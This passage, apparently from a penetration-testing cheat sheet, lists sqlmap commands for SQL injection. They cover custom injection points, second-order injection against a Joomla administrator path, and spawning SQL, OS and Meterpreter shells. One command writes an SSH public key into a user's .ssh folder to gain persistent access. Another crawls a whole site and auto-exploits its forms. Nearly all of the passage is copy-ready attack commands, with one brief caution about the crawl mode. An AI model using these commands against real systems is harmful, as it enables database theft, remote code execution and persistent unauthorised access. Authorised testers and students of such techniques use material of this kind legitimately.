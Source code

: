 By defining a custom injection point with the wildcard character '`*`' , you have finer control over the testing process, ensuring SQLmap targets specific parts of the request you suspect to be vulnerable.

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
```

## Second Order Injection

A second-order SQL injection occurs when malicious SQL code injected into an application is not executed immediately but is instead stored in the database and later used in another SQL query.

```powershell
sqlmap -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## Getting A Shell

* SQL Shell:

    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell
    ```

* OS Shell:

    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell
    ```

* Meterpreter:

    ```ps1
    python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn
    ```

* SSH Shell:

    ```ps1
    python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
    ```

## Crawl And Auto-Exploit

This method is not advisable for penetration testing; it should only be used in controlled environments or challenges. It will crawl the entire website and automatically submit forms, which may lead to unintended requests being sent to sensitive features like "delete" or "destroy" endpoints.

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```
